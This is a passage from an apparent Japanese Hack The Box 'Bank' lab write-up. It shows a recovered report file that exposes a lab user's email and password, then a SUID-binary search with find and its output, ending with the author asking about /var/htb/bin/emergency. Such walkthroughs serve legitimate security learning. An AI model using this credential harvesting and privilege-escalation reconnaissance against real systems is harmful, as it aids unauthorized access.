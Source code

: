 ```
$ cat bankreports.txt
cat bankreports.txt
+=================+
| HTB Bank Report |
+=================+

===Users===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 2
Transactions: 8
Balance: 1.337$
===Users===$
```

これで ssh か！と思ったんですけどできませんでした。

## SUIDなファイルを探す

https://github.com/sanposhiho/MY_CHEAT_SHEET/blob/master/Linux/linux_commands.md#suid%E3%81%AA%E3%83%95%E3%82%A1%E3%82%A4%E3%83%AB%E3%82%92%E6%8E%A2%E3%81%99

```
$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
```

`/var/htb/bin/emergency`ってなんでしょうか
